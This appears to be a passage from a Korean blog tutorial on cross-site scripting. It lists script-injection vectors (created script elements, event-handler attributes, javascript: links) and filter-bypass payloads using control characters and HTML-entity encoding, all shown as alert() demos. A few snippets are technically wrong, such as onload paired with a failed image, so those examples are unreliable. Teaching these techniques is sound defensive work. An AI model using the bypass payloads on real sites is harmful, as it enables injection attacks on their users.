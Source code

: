 innerHTML은 code injection과 같은 경우를 방지하기 위해 script태그가 실행되지 않는다.  
자세한 내용은 다음 MDN 참고  
[Element: innerHTML property](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML#security_considerations:~:text=Security%20considerations)

**하지만 javascript를 실행시킬 수 있는 방법은 많다.**

- \<script> 객체를 생성해서 DOM 에 직접적으로 넣기

```js
const script = document.createElement('script');
const text = document.createTextNode("alert('XSS 공격!!!')");

script.appendChild(text);
document.body.append(script);
```

- 이벤트 핸들러 속성

```js
// 유효한 이미지 로드 후
<img src="https://example.com/a.jpg" onload="alert('XSS 공격!!!')"/>

// 이미지 로드 실패 시
<img src=x onload="alert('XSS 공격!!!')"/>

// input 태그에 포커스 될 경우
<input type="text" onfocus="alert('XSS 공격!!!')"/>
```

- 활성 하이퍼 링크  
  javascript: 스키마는 URL 로드 시 자바스크립트 코드를 실행할 수 있게 함

```js
<a href="javascript:alert('XSS 공격!!!')">링크</a>
<iframe src="alert('XSS 공격!!!')"/>
```

- 활성 하이퍼 링크 javascript: 스키마 필터링 시 우회 방법  
  웹사이트에서 javascript: 스키마를 필터하여 막는다면 다음과 같이 필터링을 우회할 수 있다.

브라우저들이 URL을 사용할 때 정규화를 하면서 특수문자가 제거되고, 스키마의 대소문자 통일된다.

```js
// 특수문자를 포함한 우회(\x01, \x04, \t)
<a href="\1\4jAVasC\triPT:alert('XSS 공격!!!')">링크</a>
<iframe src="\1\4jAVasC\triPT:alert('XSS 공격!!!')"/>
```

HTML 태그 속성 내에서는 HTML 인코딩을 사용할 수 있어 XSS 키워드를 인코딩하여 필터링 우회가 가능하다.

```js
// HTML Entity Encoding을 통한 우회
<a href="\1&#4;\J&#97;\v&#x61;sCr\tip&tab;&colon;alert('XSS 공격!!!');">링크</a>
<iframe src="\1&#4;\J&#97;\v&#x61;sCr\tip&tab;&colon;alert('XSS 공격!!!');"/>
```

악의적인 사용자는 위와 같은 방법으로 악성 스크립트가 담긴 요소를 DB에 저장했다.  
![게시글에 악성 스크립트 입력 시도](/images/xss/stored-hacker-input.jpg)
